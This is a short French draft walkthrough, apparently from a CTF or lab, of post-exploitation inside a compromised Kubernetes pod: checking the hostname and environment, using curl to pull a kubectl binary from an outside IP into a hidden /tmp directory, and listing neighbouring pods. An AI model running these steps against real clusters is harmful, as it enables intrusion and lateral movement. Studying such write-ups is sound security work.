 ```yaml
---
draft: true
---
```




# Compromission du node

Tout d’abord, regardons où nous nous trouvons :

```
$ hostname
webserver-56889d9bf8-gh9vg
```

Hum ca ne ressemble pas à un hostname standard... Confirmons que  c’est un environnement virtualisé en regardant l’environnement :

```
$ env | grep KUB
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_SERVICE_HOST=10.96.0.1
```

Ok on est sur un pod kubernetes, on récupère kubectl pour éviter de devoir requêter l’API en curl :

```
$ mkdir /tmp/.tmp
$ cd /tmp/.tmp
$ curl http://18.188.14.65:16309/kubectl > kubectl
$ chmod +x kubectl
$ export PATH=$PATH:/tmp/.tmp
```

On regarde si on a des voisins sur le même namespace :

```
$ kubectl get pods -o wide
NAME                         READY   STATUS    RESTARTS   AGE   IP            NODE    NOMINATED NODE   READINESS GATES
dev-57f659f775-4wr9p         1/1     Running   12         45d   10.244.2.19   node2   <none>           <none>
webserver-56889d9bf8-gh9vg   1/1     Running   5          48d   10.244.1.20   node1   <none>           <none>
```

Effectivement, en plus de notre pod il y a un pod de dev à côté. On retrouve également cette information dans /etc/hosts.
